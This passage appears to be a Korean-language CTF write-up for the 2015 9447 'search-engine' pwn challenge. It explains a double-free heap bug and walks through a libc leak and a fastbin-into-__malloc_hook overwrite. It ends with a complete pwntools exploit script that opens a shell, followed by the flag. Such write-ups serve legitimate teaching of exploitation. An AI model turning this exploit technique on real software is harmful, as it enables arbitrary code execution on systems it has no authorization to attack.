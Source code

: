 ```yaml
---
layout: post
title: "[2015 9447 ctf] search-engine 풀이"
date: 2018-09-12 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Ever wanted to search through real life? Well this won't help, but it will let you search strings.
### Find it at search-engine-qgidg858.9447.plumbing port 9447.
### [search](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/search-engine/search-bf61fbb8fa7212c814b2607a81a84adf)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup into stack` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/2015_9447-ctf/search-engine/01.png)
{: refdef}

## `func_search`

1. 검색할 문자열의 길이와 문자열을 입력

2. 전체 문자열이 존재하는지 검사

3. 부분 문자열의 길이와 문자열을 입력받은 값과 비교

4. 다음 구조체가 없을 때 까지 계속 검사

5. 일치하는 문자열이 있으면 전체 문자열을 전체 문자열의 길이만큼 출력하고 `free`할 지 선택

6. `free`를 하면 전체 문자열을 그 길이만큼 `\x00`으로 초기화하고 전체 문자열만 `free`

## `func_index`

1. 등록할 문자열의 길이와 문자열을 입력

2. 문자열의 띄어쓰기마다 구조체를 생성

## `구조체 chunk`

```
[prev_size][chunk_size]
[*부분 문자열][부분 문자열의 길이]
[*전체 문자열][전체 문자열의 길이]
[*다음 구조체]
```

- - -
# 0x01. 취약점 분석

이 문제에 취약점은 문자열 검색 후에 `Delete`로 문자열은 `free`해주는데 구조체는 그대로인 거에요.

문자열을 초기화하고 `free`하지만 `free`를 하면 `fd`같은게 생기기 때문에 `func_search`의 2번에서 검사가 똑디 안돼요.

이걸 확인해 보려면 아래처럼 코드를 작성하면 돼요.

```python
func_index("AAAA B".ljust(0x68, "C"))
func_index("D"*0x68)

func_search("D"*0x68)
s.sendline("y")
func_search("AAAA")
s.sendline("y")

func_search("\x00")
```

{: refdef: style="text-align: center;"}
![func_index](/img/2015_9447-ctf/search-engine/02.png)
{: refdef}

우선 `func_index`를 두 번 하면 위처럼 돼요.

위에서부터 순서대로 `"D"*0x68`, `"C"*0x61`, `"B"`, `"AAAA"` 에요.

{: refdef: style="text-align: center;"}
![func_search](/img/2015_9447-ctf/search-engine/03.png)
{: refdef}

둘 다 `delete`한 상태에요.

구조체의 값은 그대로인데 `문자열 chunk`를 보면 `"D"*0x68` 대신 `\x00`만 들어있고 `"AAAA"` 부분엔 `"D"*0x68`의 주소가 아닌 다른 주소가 들어가 있어요.

왜 그런가 보니까 `func_search`함수를 보면 검색이 목적으로 `문자열 chunk`를 처음에 할당해줘요. 이 `chunk`는 함수가 끝날 때 `free` 하니까 `"D"*0x68`을 `delete`할 때 기존의 `문자열 chunk`가 `free`되고 검색을 위해 할당한 `문자열 chunk`가 `free`돼요.

쨋든 이걸로 `heap`영역의 주소도 알아낼 수 있고 `delete`를 또 해주면 `Double Free Bug`도 발생해요.

- - -
# 0x02. 공격 방법

`Double Free Bug`가 발생하니까 `fastbin`의 `fd`를 조작해서 `malloc_hook`쪽에 `chunk`를 할당받아서 `malloc_hook`에 `magic_gadget`을 넣을거에요.

그러려면 `libc_leak`을 해야하는데 그건 `unsorted_bin`을 사용할 거에요. 위 방법이랑 똑같이 하면 `bk` 부분에서 `libc_leak`을 할 수 있어요.

`fastbin`을 사용할 땐 순서를 신경써야 하는데 전 단순하게 `0x70 chunk`를 세 개 할당받고 순서대로 `free`해준 다음 두 번째 `chunk`를 다시 `free`해줬어요.

`0x70 chunk`를 사용하는 이유는 `malloc_hook` 쪽에는 라이브러리의 주소들이 적혀있는데 이 값이 `0x7f~~~`로 생겨서에요. `0x7f`를 `fastbin`의 `size`로 착각하게끔 주소를 바꿔주면 `fastbin`인 줄 알고 그쪽으로 `chunk`를 할당해줘요.

1. `unsorted bin`을 이용해 `libc_leak` (`main_arena+88`)

2. `0x70 chunk`를 `Double Free` (이 단계가 끝나면 `head` - `2` - `3` - `2` - `1` - `tail`)

3. `malloc_hook - 0x13` 주소가 `fd`에 들어가게끔 `0x70 chunk` 할당 (`head` - `3` - `2` - `malloc_hook - 0x13` - `tail`)

4. 두 번 더 `0x70 chunk`를 할당 (`head` - `malloc_hook - 0x13` - `tail`)

5. `malloc_hook`에 `magic_gadget`이 들어가끔 `0x70 chunk` 할당

- - -
# 0x03. 익스플로잇

```python
rom pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "search-engine-qgidg858.9447.plumbing"
PORT = 4444
#PORT = 9447

s = remote(HOST, PORT)
pause()

elf = ELF("./search-engine")
libc = ELF("./libc.so.6")

malloc_hook_off = 0x3C4B10
leak_off = 0x3c4b78
one_off = 0xf02a4

def func_search(content):
    s.sendline("1")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("word:\n")
    s.sendline(content)

def func_index(content):
    s.sendline("2")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("sentence:\n")
    s.sendline(content)

# libc_leak
func_index(("1"*0x10 + " 2 ").ljust(0x118, "3"))
func_index("4 ".ljust(0x118, "5"))

func_search("4")
s.sendline("y")
func_search("1"*0x10)
s.sendline("y")

func_search("\x00")
s.recvuntil("Found 280: ")
s.sendline("n")
s.recv(8)
libc_leak = u64(s.recvuntil("\x00").ljust(8, "\x00"))
real_base = libc_leak - leak_off
real_malloc_hook = real_base + malloc_hook_off
real_one = real_base + one_off

print
log.info("real_base : " + hex(real_base))
log.info("real_malloc_hook : " + hex(real_malloc_hook))
log.info("real_one : " + hex(real_one))
print

# Double Free Bug
func_index(("A"*0x10 + " BB ").ljust(0x68, "C"))
func_index(("D"*0x10 + " EEE ").ljust(0x68, "F"))
func_index(("G"*0x10 + " HHHH ").ljust(0x68, "I"))

func_search("BB")
s.sendline("y")
func_search("EEE")
s.sendline("y")
func_search("HHHH")
s.sendline("y")

func_search("\x00"*0x3)
s.sendline("y")

# exploit
payload = p64(real_malloc_hook - 0x13)
func_index(payload.ljust(0x68, "J"))
func_index("K"*0x68)
func_index("L"*0x68)

payload = "\x7f\x00\x00"
payload += p64(real_one)
func_index(payload.ljust(0x68, "\x00"))

s.interactive()
```

### 9447{this_w4S_heAPs_0f_FUn}
